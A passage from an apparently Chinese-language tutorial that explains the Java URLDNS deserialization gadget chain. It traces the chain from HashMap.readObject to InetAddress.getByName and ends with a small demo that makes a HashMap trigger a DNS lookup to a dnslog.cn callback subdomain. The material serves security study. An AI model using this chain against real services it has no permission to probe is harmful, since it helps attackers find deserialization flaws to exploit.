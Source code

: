 
这里跟进`getHostAddress`方法

```java
  protected synchronized InetAddress getHostAddress(URL u) {
        if (u.hostAddress != null)
            return u.hostAddress;

        String host = u.getHost();
        if (host == null || host.equals("")) {
            return null;
        } else {
            try {
                u.hostAddress = InetAddress.getByName(host);
            } catch (UnknownHostException ex) {
                return null;
            } catch (SecurityException se) {
                return null;
            }
        }
        return u.hostAddress;
    }
```

这⾥ `InetAddress.getByName(host)` 的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次DNS查询。

因此整个利用链：

```java
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```

## 细节

### 对序列化过程中DNS查询触发的处理

该链的入口为hash方法，我们发现在HashMap类中的put方法当中就调用了该方法。

```java
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

也就是说当我们简单调用put方法就会触发URLDNS链，验证一下

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws MalformedURLException {
        HashMap ht = new HashMap();
        String url = "http://clnlld.dnslog.cn/";
        URL u = new URL(url);
        ht.put(u,url);
    }
}
```
